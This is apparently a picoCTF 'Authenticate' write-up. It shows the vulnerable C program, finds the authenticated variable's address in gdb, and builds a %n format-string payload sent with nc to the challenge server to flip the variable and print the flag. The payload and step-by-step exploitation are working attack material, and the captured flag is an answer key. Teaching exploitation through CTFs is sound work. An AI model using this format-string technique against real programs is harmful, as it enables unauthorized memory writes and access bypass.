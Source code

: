 # Authenticate - Pwn

On this challenge, we get this source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

Here we see that we need to get authenticated to equal 1 in order to get the flag. We then find a format string vulnerability on this line:
```printf(buf);```

First we fire up gdb and diassemble the read_flag function:
```
gdb-peda$ disas read_flag
Dump of assembler code for function read_flag:
   0x080486e4 <+0>:    push   ebp
   0x080486e5 <+1>:    mov    ebp,esp
   0x080486e7 <+3>:    sub    esp,0x8
   0x080486ea <+6>:    mov    eax,ds:0x804a04c
   0x080486ef <+11>:    test   eax,eax
   0x080486f1 <+13>:    jne    0x8048705 <read_flag+33>
   0x080486f3 <+15>:    sub    esp,0xc
   0x080486f6 <+18>:    push   0x8048934
   0x080486fb <+23>:    call   0x80484f0 <puts@plt>
   0x08048700 <+28>:    add    esp,0x10
   0x08048703 <+31>:    jmp    0x804871a <read_flag+54>
   0x08048705 <+33>:    sub    esp,0xc
   0x08048708 <+36>:    push   0x8048958
   0x0804870d <+41>:    call   0x80484f0 <puts@plt>
   0x08048712 <+46>:    add    esp,0x10
   0x08048715 <+49>:    call   0x804865b <flag>
   0x0804871a <+54>:    nop
   0x0804871b <+55>:    leave  
   0x0804871c <+56>:    ret    
End of assembler dump.```

Here we see this line:
```0x080486ea <+6>:    mov    eax,ds:0x804a04c```

This will move the authenticated variable into the register EAX, and ds stands for data segment. This instruction is hardcoded which means that authenticated variable will always be on this address, and this makes it easier for us.

First I need to check where I can set breakpoint in main to be able to see how the stack looks after the call to the vulnerable function printf as I mentioned earlier.

```
....
0x080487e5 <+200>:	push   0x80489aa
   0x080487ea <+205>:	call   0x80484f0 <puts@plt>
   0x080487ef <+210>:	add    esp,0x10
   0x080487f2 <+213>:	sub    esp,0xc
   0x080487f5 <+216>:	lea    eax,[ebp-0x4c]
   0x080487f8 <+219>:	push   eax
   0x080487f9 <+220>:	call   0x80484b0 <printf@plt>
   0x080487fe <+225>:	add    esp,0x10
   0x08048801 <+228>:	call   0x80486e4 <read_flag>
   0x08048806 <+233>:	mov    eax,0x0
   0x0804880b <+238>:	mov    edx,DWORD PTR [ebp-0xc]
....
```

I set a breakpoint after the printf line here with:
``` b * 0x080487fe```

Then I run this:
```run <<< $(python -c 'print "\x4c\xa0\x04\x08%p%p%p%p%p"')```
To start the program and %p prints what is on the stack. I then use ```x/xw $esp``` to see how the stack looks like:
```
gdb-peda$ x/xw $esp
0xffffd280:    0xffffd2ac
gdb-peda$ 
0xffffd284:    0x080489a6
gdb-peda$ 
0xffffd288:    0xf7fa15c0
gdb-peda$ 
0xffffd28c:    0x0804875a
gdb-peda$ 
0xffffd290:    0x00000000
gdb-peda$ 
0xffffd294:    0x00ca0000
gdb-peda$ 
0xffffd298:    0x00000000
gdb-peda$ 
0xffffd29c:    0xffffd3a4
gdb-peda$ 
0xffffd2a0:    0x00000000
gdb-peda$ 
0xffffd2a4:    0x00000000
gdb-peda$ 
0xffffd2a8:    0x00000000
gdb-peda$ 
0xffffd2ac:    0x0804a04c
```
We see here that the address 0x0804a04c is on the 11th step, which means that when we run this:
```python -c 'print "\x4c\xa0\x04\x08%11$p"' | ./auth ```
Here, ```$``` says which place on the stack we should write/read from. From the output on the command above, we should get the address and that is what we get:
```
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�0x804a04c
Sorry, you are not *authenticated*!
```

Now we need to write something to the stack and we can use %n for that. So we change from %p to %n

```python -c 'print "\x4c\xa0\x04\x08%11$n"' | nc 2018shell2.picoctf.com 26336```

The %n prints out the length of what has been printed out from printf which is 4 in this case, so authenticated will contain the number 4 which works because authenticated will be true as long as it is not 0.

If we run the command above, we get the flag: 
```
Would you like to read the flag? (yes/no)
Received Unknown Input:

Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_e8337b91}
````

